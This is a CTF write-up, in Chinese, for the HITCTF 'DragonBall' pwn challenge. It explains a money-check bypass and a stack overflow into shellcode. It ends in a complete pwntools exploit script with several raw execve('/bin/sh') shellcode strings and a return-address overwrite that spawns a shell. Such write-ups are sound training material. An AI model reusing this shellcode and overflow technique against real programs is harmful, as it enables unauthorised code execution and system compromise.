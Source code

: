 ```yaml
---
title: HITCTF DragoBall WP
date: 2018-08-02 08:37:40
tags: [CTF, PWN]
categories: PWN练习
---
```

# HITCTF DragonBall WP
​	这段时间打算刷下之前哈工大的pwn。今天是第一天，本来打算搞两三道的结果发现一个栈就看了一天，哎果然还是太菜了。
<!--more-->
	拿到题目先checksc看发现什么保护都没有开，判断应该是栈，扔ida一审发现他没有check负数，check的逻辑是当钱为0时不能购买Dragonball，但是这里可以通过买-卖-再买使钱数不能被5整除，这样的话就能绕过check进入wish函数。wish函数中有两个输入，其中一个可以溢出，但是只能刚好溢出到ret，一开始觉得rop的话利用起来应该会比较烦，毕竟它能溢出的字节数还是比较少，而且他这里没有开nx，应该是通过写shellcode来getshell。这样想后便往写shellcode上去看，发现可以通过控制ebp来控制wish函数中写入的位置，由于wish函数中两次获取用户输入都是一个ebp，gdb跟了一下发现可以同时控制往bss段和got段写任意值（由于bss段足够大），于是打算复写puts的got为shellcode在bss段的起始地址，这样当wish函数中最后调用puts的时候就回去执行shellcode。完美。
	emmmmm然而利用并没有成功。调了一下发现程序接收输入变成了从输出去接收，也就是read函数的fd变成了1，这样的话构造的字符串程序无法接收，但是这里第一次输入之后会输入目标空间中的值，也就是说这里我们可以得到程序的libc库。然后后来看了一下好像还是无法利用就先放弃了这个方法。  
	之后通过之前泄露libc库想到如果wish函数中第一次输入的时候将缓冲区填满，就能泄露ebp，一旦泄露ebp，栈上的所有地址都可以通过泄露的ebp+偏移得到，这时如果我们将shellcode布置在栈上，同时将ret复写为ebp-偏移，使ret指向栈上的那部分shellcode，我们就能getshell了。这里也有很多坑，主要就是程序输出的串没有接收导致进程阻塞之类的，还有就是最好不要去任意改变程序执行流程，这样可能会破坏栈结构，导致一些莫名其妙的问题，最后就是这里用shellcraft生成的shellcode好像不行，只好自己去网上找到能用的shellcode。
这道题应该还有其它的方法，等下次再填坑。

```
from pwn import *
context(log_level='debug',arch='i386',os='linux')
p=process('./DragonBall')
elf=ELF('./DragonBall')
gdb.attach(p,'''
	break *0x080487C0
	break *0x08048791
	continue
''')

def buy():
	p.recvuntil('You choice: ')
	p.sendline('1')

def sell():
	p.recvuntil('You choice: ')
	p.sendline('2')

def list():
	p.recvuntil('You choice: ')
	p.sendline('3')

#def wish():
#	p.recvuntil('You choice: ')
#	p.sendline('4')
#	p.recvuntil('Tell me your wish: ')
#	p.sendline('a'*0x68)
#	p.recvuntil('a'*0x68)
#	a=(u32(p.recv(4)))
#	p.recvuntil('(Y/N) ')
#	p.sendline(asm(shellcraft.sh())+(0x3c-len(asm(shellcraft.sh())))*'c'+p32(0x1234))
#
#def exit():
#	p.recvuntil('You choice: ')
#	p.sendline('5')

buy()
sell()
buy()
buy()
buy()
buy()
buy()
buy()
buy()
p.recvuntil('You choice: ')
p.sendline('4')
p.recvuntil('Tell me your wish: ')
p.sendline('a'*0x67)
p.recvuntil('a'*0x67)
a=(u32(p.recv(4)))
a='0xff'+(hex(a).replace('0x',''))[0:6]
print a
a=int(a,16)
p.recvuntil('(Y/N) ')
shellcode='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80'
shellcode='jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
shellcode='\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'
shellcode='\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80'
#shellcode=asm(shellcraft.sh())
leng=len(shellcode)
#p.sendline((shellcode)+(0x3c-len((shellcode)))*'c'+p32(0x1234))
p.sendline(shellcode+'a'*(0x3c-leng)+p32(a-0x58))

p.interactive()

```

